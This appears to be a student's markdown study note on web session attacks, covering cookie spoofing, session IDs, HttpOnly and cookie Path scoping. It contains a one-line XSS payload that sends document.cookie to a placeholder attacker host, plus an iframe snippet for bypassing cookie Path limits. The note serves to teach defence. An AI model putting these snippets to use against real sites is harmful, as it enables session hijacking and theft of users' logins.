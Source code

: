 # Session attacks

## Session recap

- Server use cookies to implement the sessions.
- Server keeps a set of data related to a users session

## Ambient authority

Access control based on a global persistent form
Four types

1. cookies
2. IP checking
3. Built-in HTTP authentication
4. Client certificates

## Shortcoming in the [Session-2](02-cookies-sessions.md) way of storing cookies

We set the cookie as a plain text username and anyone can simply spoof this cookies on the client and sign in as some other user.

To avoid this we send a tag that is AES encrypted using a public and a private key and the browser now, along with the username cookies also sends the tag which would be used for verification. This avoids user spoofing to be someones else. And once you log-out the cookie is removed.

But in our current server approach, shortcoming is, if a malware can sniff out my cookie, now it can log-in and keep accessing even if we have logged out.

Can fix this by creating a unique sessionId associated with the session and destroy it when you logout.

Session Hijacking via XSS

If website is vulnerable to xss, user can execute the insert the code into the webpage and can ex-filtrate the cookie.

```js
new Image().src = "https://hacker-man?cookie=" + document.cookie;
```

Workout being set cookie with HttpOnly

As an additional layer of security, you can specify a path to your cookies
`name=xyz; Path=/a/b`

Now even if you're in the same domain, but on a diff path you won't get the cookie attached or have access to it.

We can get around this by creating an iFrame and load the target path in your page

```js
// on page .../b/c

const iframe = document.createElement("iframe");

iframe.src = ".../a/b";

document.body.append(iframe);

iframe.style.display = "none";

// then get access via

iframe.contentDocument;
```
